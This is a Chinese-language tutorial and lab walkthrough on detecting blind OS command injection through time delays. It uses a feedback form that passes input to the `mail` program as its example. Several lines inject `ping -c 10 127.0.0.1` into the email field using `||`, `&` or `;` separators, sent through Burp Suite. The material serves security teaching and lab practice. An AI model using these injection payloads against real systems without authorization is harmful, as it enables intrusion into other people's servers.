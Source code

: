 

## 盲注攻击技术

许多操作系统命令注入实例是盲目漏洞。这意味着应用程序不会在其 HTTP 响应中返回命令的输出。盲目漏洞仍然可以被利用，但需要不同的技术。



例如，想象一个网站允许用户提交关于站点的反馈。用户输入他们的电子邮件地址和反馈消息。服务器端应用程序随后生成一封包含反馈的电子邮件发送给站点管理员。为此，它使用提交的详细信息调用 `mail` 程序：

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

`mail` 命令的输出（如果有）不会在应用程序的响应中返回，所以使用 `echo` 负载不起作用。在这种情况下，您可以使用多种其他技术来检测和利用漏洞。



**时间延迟检测**

您可以使用注入的命令触发时间延迟，从而根据应用程序响应所需的时间确认命令已执行。`ping` 命令是一种很好的方法，因为它允许您指定要发送的 ICMP 数据包的数量。这使您可以控制命令运行所需的时间：

```
& ping -c 10 127.0.0.1 &
```

此命令使应用程序对其环回网络适配器 ping 10 秒钟。



**实验**

本实验包含一个反馈功能中的盲注操作系统命令注入漏洞。

应用程序会执行包含用户所提供详细信息的 shell 命令。该命令的输出不会在响应中返回。

为了解决这个实验，利用盲注操作系统命令注入漏洞来造成 10 秒钟的延迟。



1. 使用 Burp Suite 拦截并修改提交反馈的请求。

```
csrf=FnADTaJT4Rz1d0GumM8nDjxwLp8sBCkG&name=Name&email=x%40x.com&subject=subject&message=content
```



2. 修改 `email` 参数，将其更改为：

```
csrf=xxx&name=Name&email=x||ping+-c+10+127.0.0.1||&subject=subject&message=content
```

以下方法也可以：

```
email=x;ping+-c+10+127.0.0.1;
```



3. 观察到响应需要 10 秒钟才返回。

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2

{}
```
